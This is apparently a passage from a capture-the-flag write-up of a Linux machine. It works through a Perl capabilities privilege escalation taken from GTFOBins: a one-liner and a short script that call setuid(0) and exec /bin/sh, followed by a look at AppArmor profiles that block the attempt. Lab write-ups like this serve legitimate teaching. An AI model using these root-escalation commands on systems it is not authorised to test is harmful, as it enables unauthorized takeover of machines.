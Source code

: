 ### AppArmor

#### GTFOBins Failure

There’s an entry for this on [GTFObins](https://gtfobins.github.io/gtfobins/perl/#capabilities). I’ll just use the one liner from there:

```

david@nunchucks:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:~$ 

```

For some reason it doesn’t return a root shell.

If I try `whoami`, it does return root:

```

david@nunchucks:/etc/apparmor.d$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root

```

If I create a simple script in `/tmp`:

```

#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"

```

When I try to pass it to `perl`, it gets an accessed denied:

```

david@nunchucks:/tmp$ perl a.pl 
Can't open perl script "a.pl": Permission denied

```

#### AppArmor Config

Apparmor is a way to define access controls much more granularly to various binaries in Linux. There are a series of binary-specific profiles in `/etc/apparmor.d`:

```

david@nunchucks:/etc/apparmor.d$ ls
abstractions  disable  force-complain  local  lsb_release  nvidia_modprobe  sbin.dhclient  tunables  usr.bin.man  usr.bin.perl  usr.sbin.ippusbxd  usr.sbin.mysqld  usr.sbin.rsyslogd  usr.sbin.tcpdump

```
